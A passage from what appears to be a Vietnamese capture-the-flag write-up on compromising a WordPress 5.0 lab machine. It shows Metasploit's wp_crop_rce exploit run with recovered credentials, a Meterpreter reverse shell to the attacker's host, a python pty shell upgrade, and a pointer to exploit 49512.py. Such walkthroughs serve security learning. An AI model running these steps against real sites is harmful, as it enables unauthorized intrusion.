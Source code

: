 > ![Options](image-1.png)

```ps1 title="Terminal"
msf6 exploit(multi/http/wp_crop_rce) > exploit

[*] Started reverse TCP handler on 10.18.80.57:443 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39927 bytes) to 10.10.184.240
[*] Meterpreter session 1 opened (10.18.80.57:443 -> 10.10.184.240:54232) at 2023-08-27 09:21:20 -0400
[*] Attempting to clean up files...
```

```ps1 title="Terminal"
meterpreter > shell
Process 1834 created.
Channel 1 created.
```

```ps1 title="Terminal"
python -c 'import pty;pty.spawn ("/bin/bash");'
www-data@blog:/var/www/wordpress$
```

Cuối cùng cũng đã thành công bước đầu của việc thâm nhập hệ thống.

#### __Python script__

Nhìn lại searchsploit nào, ta có thể dùng python (file 49512.py) để khai thác lỗ hỏng Image Remote Code Excution trên WordPress 5.0

![Hình ảnh mô tả kết quả searchsploit](image-14.png)
